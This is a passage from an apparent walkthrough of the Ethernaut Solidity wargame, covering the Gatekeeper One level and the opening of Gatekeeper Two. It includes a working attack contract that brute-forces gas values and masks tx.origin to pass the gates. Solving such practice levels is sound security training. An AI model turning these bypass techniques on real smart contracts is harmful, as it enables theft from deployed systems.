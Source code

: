 ```
  3rd condition: 0x0000???? needs to be equal to the last 4 hex of tx.origin
We will create a variable to store the last 16 digits of our account and another one for the key. One possible solution is to use the value of tx.origin and only mask part of it with 0 (as described in the 1st condition).
In summary, we will create a malicious contract in Remix-IDE that calls the enter function of the Gatekeeper contract (thus passing gateOne). We will append a gas value to our call that will vary in order to brute force gateTwo (using Spalladino’s solution). Finally, we will pass to our call a parameter made by masking part or the value of tx.origin (in order to pass gateThree).


```
contract AreYouTheKeymaster{
    using SafeMath for uint256;
    bytes8 txOrigin16 = 0x827279cfffb92266; //last 16 digits of your account
    bytes8 key = txOrigin16 & 0xFFFFFFFF0000FFFF; 
    GatekeeperOne public gkpOne;

 
    function setGatekeeperOne(address _addr) public{
        gkpOne = GatekeeperOne(_addr);
    }
    
    function letMeIn() public returns (uint256){
         for (uint256 i = 0; i < 120; i++) {
            console.log("Running letMeIn:", i);
         (bool result, ) = address(gkpOne).call.gas(
          i + 150 + 8191*3)(abi.encodeWithSignature("enter(bytes8)", key)); // thanks to Spalladino https://github.com/OpenZeppelin/ethernaut/blob/solidity-05/contracts/attacks/GatekeeperOneAttack.sol
      if(result)
        {
             console.log("Running letMeIn, result:", result, i);
            return i;
        break;
        
      }
    }
  }
```

## Gatekeeper Two
Difficulty 6/10

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Things that might help:
Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See here for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the yellow paper.
The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see here). The Coin Flip level is also a good place to start when approaching this challenge.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
